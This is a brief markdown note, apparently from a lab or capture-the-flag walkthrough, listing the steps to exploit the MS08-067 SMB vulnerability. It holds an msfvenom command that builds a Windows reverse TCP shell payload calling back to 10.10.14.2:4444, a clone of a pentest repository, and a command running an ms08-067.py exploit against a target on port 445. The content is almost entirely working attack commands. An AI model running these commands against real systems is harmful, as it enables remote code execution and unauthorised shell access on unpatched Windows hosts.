 ## Ready
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows`
`git clone https://github.com/jivoi/pentest.git`
## Exploit
`python3 ms08-067.py 10.10.10.4 6 445`
